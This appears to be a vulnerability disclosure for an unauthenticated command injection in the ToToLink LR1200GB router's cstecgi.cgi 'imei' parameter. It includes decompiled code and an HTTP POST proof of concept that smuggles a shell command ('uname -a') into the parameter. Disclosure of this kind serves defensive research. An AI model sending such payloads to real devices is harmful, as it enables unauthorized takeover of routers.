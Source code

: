 # Command Injection Vulnerability in `imei`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink LR1200GB Router                                     |
| Firmware Version     | **V9.1.0u.6619_B20230130**                                   |
| Vulnerability Type   | **Remote Command Injection**                                 |
| Vulnerable Component | `cstecgi.cgi` (handling of `imei` parameter via `websGetVar`) |
| Prerequisites        | Remote access to the device's web interface (no authentication required) |

2. Exploitation Path

```c
int __fastcall sub_41EC68(int a1)
{
  ...
  Var = websGetVar(a1, "imei", (int)&byte_439510);
  if ( strlen(Var) == 15 )
  {
    sprintf(v4, "cli_atc at+EGMR=1,7,\\\"%s\\\" ", Var);
    system(v4);
    ...
}
```

3. **Vulnerable Binaries:** `cstecgi.cgi`.
4. 0-Day Command Injection Exploitation Path: In `cstecgi.cgi`, at line 5, `Var = websGetVar(a1, "imei", (int)&byte_439510)` receives data and only performs a length check, without filtering any sensitive characters. At line 8, `printf(v4, "cli_atc at+EGMR=1,7,\\\"%s\\\" ", Var)` concatenates the string, which is then directly passed to `system(v4)` at line 9, resulting in a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerabilities:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: curl/7.81.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Connection: close

imei=123456;uname -a;
```